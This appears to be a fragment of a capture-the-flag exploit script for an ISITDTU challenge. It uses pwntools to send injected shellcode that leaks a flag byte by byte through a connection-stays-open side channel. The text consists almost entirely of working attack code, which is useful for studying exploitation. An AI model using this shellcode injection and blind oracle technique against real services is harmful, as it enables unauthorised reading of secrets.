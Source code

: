 ```python
    connect()
    r.recvline(b"Some gift for you:")

    # Default is to exit
    shellcode = "xor eax, eax\n"
    shellcode += "mov edi, 0\n" # Read from stdin, effectively holding the connection open

    shellcode += "add rdx, 0x1000\n"

    # Load up 64-bits at a time
    shellcode += "mov rbx, [rdx + {0}*8]\n".format(index//8)

    # Shift over to the char we're actually comparing against
    shellcode += "shr rbx, {0}\n".format(8*(index%8))

    # perform loop
    shellcode += "loop:"

    # Perform the comparison with our guess
    shellcode += "cmp bl, {0}\n".format(ord(c))

    # Conditionally return if we guessed wrong
    shellcode += "je loop\n"
    shellcode += "ret\n"

    # Sometimes we ended up with newline chars, just ask pwntools to remove them
    shellcode = asm(shellcode)

    # Send it
    r.sendline(shellcode)
    # Try reading
    try:
        r.recvline(timeout=0.5)
    except:
        # Connection closed on us, wrong guess
        r.close()
        return False

    # Connection stayed open, correct guess
    r.close()
    return True

flag = "ISITDTU{"

# Not specifying stop here since we don't know how long the flag is
while True:

    # Guess every character
    for c in string.printable:

        print(f'Trying char: {c}')
        # If we found this char, break and move to the next
        if tryChar(c,len(flag)):
            print("Found char: " + c)
            flag += c
            break

    else:
        # If we hit this, we're probably done reading the flag
        break

# tryChar('q', len(flag))

```